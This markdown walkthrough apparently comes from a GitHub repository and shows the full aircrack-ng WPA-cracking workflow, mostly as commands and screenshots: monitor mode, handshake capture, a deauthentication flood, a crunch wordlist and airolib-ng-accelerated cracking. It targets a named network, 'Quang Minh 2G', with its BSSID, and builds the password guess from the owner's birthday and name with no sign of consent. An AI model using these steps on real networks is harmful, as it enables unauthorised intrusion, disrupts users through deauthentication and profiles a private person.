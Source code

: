 ## Example crack wpa attack with aircrack-ng

i use tp-link wn725n and on parrotOS, the name of it is ridiculous

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/166419875-330952f9-ce4a-416d-b403-ec2d39ecc3dc.png)

```
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166419967-2d8d1bd2-eb49-40b7-b46f-cf52497eba4b.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420371-20c0ce94-e653-4cda-b87b-72f071d94a49.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19`

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/166420867-1c3d3d5a-5c26-4f67-b271-84f9a19c81d0.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/166444763-a0cb15e0-309f-430e-bc6d-ce92e7863f0e.png)

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36 GB/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)











